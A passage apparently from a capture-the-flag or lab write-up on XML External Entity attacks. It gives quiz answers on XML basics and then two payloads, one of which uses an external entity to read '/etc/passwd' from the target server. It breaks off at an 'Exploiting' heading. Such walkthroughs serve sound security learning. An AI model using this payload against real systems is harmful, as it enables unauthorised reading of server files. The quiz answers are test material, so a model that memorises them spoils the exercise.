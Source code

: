 ```
No
```

### #3 **Can we validate XML documents against a schema?**

```
Yes
```

### #4 **How can we specify XML version and encoding in XML document?**

```
XML Prolog
```

## :bookmark\_tabs: \[Day 4] XML External Entity - DTD

### #1 **How do you define a new ELEMENT?**

```
!ELEMENT
```

### #2 **How do you define a ROOT element?**

```
!DOCTYPE
```

### #3 **How do you define a new ENTITY?**

```
!ENTITY
```

## :bookmark\_tabs: \[Day 4] XML External Entity - XXE Payload

```markup
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
<userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
</userInfo>
```

```markup
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## :bookmark\_tabs: \[Day 4] XML External Entity - Exploiting
